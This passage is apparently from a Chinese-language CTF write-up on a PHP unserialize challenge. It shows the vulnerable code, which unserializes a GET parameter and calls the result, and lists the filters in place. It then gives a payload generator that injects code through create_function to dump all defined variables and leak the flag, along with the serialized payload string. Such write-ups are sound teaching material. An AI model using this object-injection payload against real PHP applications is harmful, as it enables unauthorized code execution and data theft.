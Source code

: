 ```php
        }
    }
    
    public function __toString(){
        $this->show();
        return "<br>"."Nice Job!!"."<br>";
    }
    
    
}

if(isset($_GET['pop'])){
    $aaa = unserialize($_GET['pop']);
    $aaa();
}
else{
    highlight_file(__FILE__);
}

?> 
```

参考<a rel="noreferrer noopener" href="https://www.gem-love.com/ctf/770.html" target="_blank" rel="nofollow" >https://www.gem-love.com/ctf/770.html</a>

现在的困难：

  * 不能通过 `system()` 等函数执行系统命令，就无法 `cat flag.php`
  * 过滤了 flag 等关键字，不能操作 `$flag` 变量
  * 过滤了 print 等关键字，不能直接读取或类似无参数 RCE 的方法 flag.php 源代码

但是代码明确写了包含 flag.php，在不指定变量名称的情况下输出变量的值，`get_defined_vars()` 可以用来输出所有变量和值。构造如下的payload

```php
<?php
class A {
    public $var;
}

class B{
    public $func;
    public $arg;
}

$a = new A();
$b = new B();

$b->func = "create_function";
$b->arg = "};var_dump(get_defined_vars());//";
$a->var = $b;

echo serialize($a);
#O:1:"A":1:{s:3:"var";O:1:"B":2:{s:4:"func";s:15:"create_function";s:3:"arg";s:33:"};var_dump(get_defined_vars());//";}}
?> 
```
